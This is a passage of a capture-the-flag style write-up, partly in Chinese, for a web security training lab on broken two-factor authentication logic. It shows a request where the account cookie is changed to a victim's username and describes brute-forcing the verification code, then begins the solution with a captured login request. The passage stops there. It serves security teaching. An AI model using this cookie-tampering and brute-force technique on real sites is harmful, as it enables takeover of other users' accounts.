 In this case, an attacker could log in using their own credentials but then change the value of the `account` cookie to any arbitrary username when submitting the verification code.

```
POST /login-steps/second HTTP/1.1 Host: vulnerable-website.com Cookie: account=victim-user ... verification-code=123456
```

This is extremely dangerous if the attacker is then able to brute-force the verification code as it would allow them to log in to arbitrary users' accounts based entirely on their username. They would never even need to know the user's password.

### 题目

```
Lab: 2FA broken logic
PRACTITIONER

This lab's two-factor authentication is vulnerable due to its flawed logic. To solve the lab, access Carlos's account page.

Your credentials: wiener:peter
Victim's username: carlos
You also have access to the email server to receive your 2FA verification code.
```

### 答案

#### 思路分析

第一步登录 wiener:peter 账号，观察数据包

```http
POST /login HTTP/2
Host: 0aee00c104d0f06981f568be006800cc.web-security-academy.net
Cookie: session=QK4VmzNpBdbq9nQJvMXaDQZFefwA7qup
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0aee00c104d0f06981f568be006800cc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aee00c104d0f06981f568be006800cc.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

username=wiener&password=peter
```

